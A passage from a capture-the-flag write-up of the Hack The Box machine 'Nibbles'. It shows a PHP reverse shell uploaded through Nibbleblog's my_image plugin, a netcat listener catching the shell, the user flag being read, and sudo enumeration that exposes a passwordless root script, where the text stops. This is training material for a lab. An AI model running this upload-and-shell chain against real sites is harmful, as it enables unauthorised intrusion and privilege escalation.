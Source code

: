 http://nibbles.htb/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image

![HTB Nibbles PHP Reverse Shell Upload](/images/htb-nibbles-php-reverse-shell-upload.png)

Click "Configure" under my-images plugin to get upload page.

![HTB - Nibbles - Upload Shell](/images/htb-nibbles-upload-page.png)

Now once the shell is uploaded ( example image.php), keep netcat listner ready and browse the reverseshell at - http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php/my_image/image.php

and we get a shell.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.75] 46192
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:55:16 up  7:10,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ whoami
nibbler
$ uname -a
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ 
```



### User Flag

Getting the user flag
```bash
$ ls /home
nibbler
$ cat /home/nibbler/user.txt
903ded9d1245092bff70d64505fe15fe
$ 
```



### Privilege Escalation

Let us check what privilleges we have.
```bash
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
$ 
```
